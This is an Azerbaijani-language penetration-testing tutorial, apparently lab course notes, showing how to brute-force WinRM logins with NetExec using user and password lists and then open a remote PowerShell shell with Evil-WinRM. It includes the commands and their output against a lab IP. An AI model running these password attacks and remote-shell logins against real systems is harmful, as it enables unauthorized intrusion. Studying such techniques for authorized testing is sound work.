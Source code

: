 NetExec-dən istifadə üçün ümumi format aşağıdakı kimidir:

```bash
nijatmansimov@htb[/htb]$ netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

Məsələn, bu, bir WinRM nöqtəsinə hücumun necə göründüyüdür:

```bash
nijatmansimov@htb[/htb]$ netexec winrm 10.129.42.197 -u user.list -p password.list
WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

**(Pwn3d\!)** görünməsi, brute-force ilə tapılan istifadəçi ilə daxil olarsa, çox güman ki, sistem əmrlərini icra edə biləcəyimizə işarədir. WinRM xidməti ilə əlaqə qurmaq üçün istifadə edə biləcəyimiz başqa bir faydalı alət, WinRM xidməti ilə səmərəli əlaqə qurmağa imkan verən **Evil-WinRM**-dir.

### Evil-WinRM

#### Evil-WinRM-in Quraşdırılması

```bash
nijatmansimov@htb[/htb]$ sudo gem install evil-winrm
Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

#### Evil-WinRM İstifadəsi

```bash
nijatmansimov@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```

```bash
nijatmansimov@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password
Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```

Əgər daxilolma uğurlu olarsa, əməliyyatı və əmrlərin icrasını sadələşdirən **Powershell Remoting Protocol** (**MS-PSRP**) istifadə edərək bir terminal seansı başladılır.
